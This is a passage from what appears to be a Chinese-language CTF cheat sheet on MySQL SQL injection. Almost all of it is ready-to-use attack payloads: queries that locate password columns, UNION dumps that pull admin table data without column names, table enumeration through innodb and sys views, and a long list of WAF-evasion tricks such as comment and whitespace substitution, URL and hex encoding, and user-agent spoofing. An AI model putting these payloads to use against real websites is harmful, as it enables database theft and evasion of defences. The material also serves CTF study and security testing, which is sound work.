 - 不使用逗號
    - `LIMIT N, M` => `LIMIT M OFFSET N`
    - `mid(user(), 1, 1)` => `mid(user() from 1 for 1)`
    - `UNION SELECT 1,2,3` => `UNION SELECT * FROM ((SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c)`

- 快速查找帶關鍵字的表
    - `select table_schema,table_name,column_name from information_schema.columns where table_schema !=0x696E666F726D6174696F6E5F736368656D61 and table_schema !=0x6D7973716C and table_schema !=0x706572666F726D616E63655F736368656D61 and (column_name like '%pass%' or column_name like '%pwd%');
    `

- 不知列名、不能訪問 information_schema 爆數據
    - 須知道表名
    - 例如: artice、admin
    - `select title from article where id = 4 and 0 union SELECT group_concat(a, 0x3a, b) FROM (SELECT 1 a,2 b,3 c UNION SELECT * FROM admin)x`
    - 列名不夠，繼續加 4,5,6,7,... 一直到猜對列名個數

- innodb
    - 表引擎為 innodb
    - MySQL > 5.5
    - innodb_table_stats、innodb_table_index存放所有庫名表名
    - `select table_name from mysql.innodb_table_stats where database_name=資料庫名;`
    - Example: [Codegate2018 prequal - simpleCMS](https://github.com/w181496/CTF/tree/master/codegate2018-prequal/simpleCMS)

- sys
    - `sys.statements_with_full_table_scans`
    - 可以撈表名
    - 詳見 [PPP simpleCMS writeup](https://github.com/pwning/public-writeup/tree/master/codegate2018/Simple%20CMS)
    - `select query from sys.statements_with_full_table_scans`
    - MySQL 5.7

- Bypass WAF

    - `select password` => `SelEcT password` (大小寫)
    - `select password` => `select/**/password` (繞空白)
    - `select password` => `s%65lect%20password` (URLencode)
    - `select password` => `select(password)` (繞空白)
    - `select password` => `select%0apassword` (繞空白)
        - %09, %0a, %0b, %0c, %0d, %a0
    - `select password from admin` => `select password /*!from*/ admin` (MySQL註解)
    - `information_schema.schemata` => ``` `information_schema`.schemata ``` (繞關鍵字/空白)
        - ``` select xxx from`information_schema`.schemata``` 
    - `select pass from user where id='admin'` => `select pass from user where id=0x61646d696e` (繞引號)
        - `id=concat(char(0x61),char(0x64),char(0x6d),char(0x69),char(0x6e))`
    - `?id=0e2union select 1,2,3` (科學記號)
        - `?id=1union select 1,2,3`會爛
        - `?id=0e1union(select~1,2,3)` (~)
        - `?id=.1union select 1,2,3` (點)
    - `WHERE` => `HAVING` (繞關鍵字)
    - `AND` => `&&` (繞關鍵字)
        - `OR` => `||`
        - `=` => `LIKE`
        - `a = 'b'` => `not a > 'b' and not a < 'b'`
        - `> 10` => `not between 0 and 10`
    - `LIMIT 0,1` => `LIMIT 1 OFFSET 0` (繞逗號)
        - `substr('kaibro',1,1)` => `substr('kaibro' from 1 for 1)`
    - Multipart/form-data繞過
        - http://xdxd.love/2015/12/18/%E9%80%9A%E8%BF%87multipart-form-data%E7%BB%95%E8%BF%87waf/
        - Example: [Real World CTF 4th - Hack into Skynet](https://github.com/w181496/CTF/tree/master/RealWorldCTF2022/Hack_into_Skynet)
    - 偽造 User-Agent
        - e.g. 有些 WAF 不封 google bot

